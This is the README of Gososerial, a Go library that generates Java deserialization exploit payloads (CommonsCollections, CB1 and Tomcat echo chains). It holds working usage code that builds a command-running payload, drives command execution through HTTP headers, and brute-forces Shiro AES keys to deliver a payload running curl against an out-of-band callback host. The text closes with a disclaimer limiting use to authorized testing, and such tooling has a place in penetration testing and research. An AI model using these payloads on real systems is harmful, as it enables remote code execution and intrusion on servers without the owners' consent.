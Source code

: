 # Gososerial

## 介绍

- 参考著名安全工具xray的代码

- ysoserial是java反序列化安全方面著名的工具

- 从二进制层面解析，无需java环境，无需下载ysoserial.jar
  
- 输入命令直接获得payload，方便编写安全工具

- 目前已支持CC1-CC7，K1-K4和CB1链

- 支持K1和K2的TomcatEcho，HTTP头可自行取名

## Quick Start

- download and import

```shell
go get github.com/EmYiQing/Gososerial
```

- example

```go
package main

import (
	"fmt"
	gososerial "github.com/EmYiQing/Gososerial"
)

func main() {
	var payload []byte
	payload = gososerial.GetCC1("calc.exe")
	fmt.Println(payload)
}
```

- how to use tomcat echo

```go
package main

import (
	gososerial "github.com/EmYiQing/Gososerial"
	"..."
)

func main() {
	// Testecho: expr 10 '*' 10 -> Testecho: expr 10 '*' 10
	// Testcmd: expr 10 '*' 10 -> Testcmd: 100
	payload := gososerial.GetCCK2TomcatEcho("Testecho", "Testcmd")

	req.Cookie = AESEncrypt(payload)
	req.Header["Testecho"] = "gososerial"
	req.Method = "POST"
	resp := httputil.sendRequest(req)

	if resp.Header["Testecho"] == "gososerial" {
		log.Info("find cck2 tomcat echo")
	}
}
```

- shiro scan example

```go
package main

import (
	gososerial "github.com/EmYiQing/Gososerial"
	"..."
)

func main() {
	// Shiro Scan Code
	target := "http://shiro_ip/"
	// Brust Shiro AES Key 
	key := shiro.CheckShiroKey(target)
	if key != nil {
		log.Info("find key: %s", key)
	}
	// Use CommonsCollections5 Payload
	var payload []byte
	payload = gososerial.GetCC5("curl xxxxx.ceye.io")
	// Send Cookies Encrypted By AES
	shiro.SendPayload(key, payload, target)
	// Receive Results Using Dnslog API
	if ceye.CheckResult("your_ceye_token") {
		log.Info("find shiro!")
	}
}
```

## 命令行 (beta)

- CommonsCollections1

![](https://github.com/EmYiQing/Gososerial/blob/master/img/1.png)

- 支持列表

![](https://github.com/EmYiQing/Gososerial/blob/master/img/2.png)

## 感谢

参考xray作者phith0n和koalr师傅的代码

**xray**: https://github.com/chaitin/xray

**phith0n**: https://github.com/phith0n

**ysoserial**: https://github.com/frohoff/ysoserial

**koalr**: https://github.com/zema1/ysoserial

## 免责申明

未经授权许可使用Gososerial攻击目标是非法的

本程序应仅用于授权的安全测试与研究目的
